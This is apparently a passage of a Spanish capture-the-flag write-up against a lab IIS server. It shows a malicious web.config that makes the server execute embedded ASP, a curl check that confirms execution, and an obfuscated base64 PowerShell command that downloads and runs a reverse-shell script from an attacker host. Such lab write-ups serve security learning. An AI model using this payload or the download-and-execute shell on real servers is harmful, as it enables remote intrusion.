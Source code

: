 Subo el ```web.config``` de prueba

```null
<?xml version="1.0" encoding="UTF-8"?>
<configuration>
   <system.webServer>
      <handlers accessPolicy="Read, Script, Write">
         <add name="web_config" path="*.config" verb="*" modules="IsapiModule" scriptProcessor="%windir%\system32\inetsrv\asp.dll" resourceType="Unspecified" requireAccess="Write" preCondition="bitness64" />         
      </handlers>
      <security>
         <requestFiltering>
            <fileExtensions>
               <remove fileExtension=".config" />
            </fileExtensions>
            <hiddenSegments>
               <remove segment="web.config" />
            </hiddenSegments>
         </requestFiltering>
      </security>
   </system.webServer>
</configuration>
<!-- ASP code comes here! It should not include HTML comment closing tag and double dashes!
<%
Response.write("-"&"->")
' it is running the ASP code if you can see 3 by opening the web.config file!
Response.write(1+2)
Response.write("<!-"&"-")
%>
-->
```

```null
curl -s -X GET http://10.10.10.93/uploadedfiles/web.config | html2text
<?xml version="1.0" encoding="UTF-8"?>
webServer>
webServer>  3
```

Como lo interpreta, puedo tratar de enviarme una reverse shell

```null
<!-- ASP code comes here! It should not include HTML comment closing tag and double dashes!
<%
Set co = CreateObject("WScript.Shell")
Set cte = co.Exec("cmd /c powershell -e SQBFAFgAKABOAGUAdwAtAE8AYgBqAGUAYwB0ACAATgBlAHQALgBXAGUAYgBDAGwAaQBlAG4AdAApAC4AZABvAHcAbgBsAG8AYQBkAFMAdAByAGkAbgBnACgAIgBoAHQAdABwADoALwAvADEAMAAuADEAMAAuADEANgAuADIALwBJAG4AdgBvAGsAZQAtAFAAbwB3AGUAcgBTAGgAZQBsAGwAVABjAHAALgBwAHMAMQAiACkACgA=")
output = cte.StdOut.Readall()
Response.write(output)
%>
```

Gano acceso al sistema
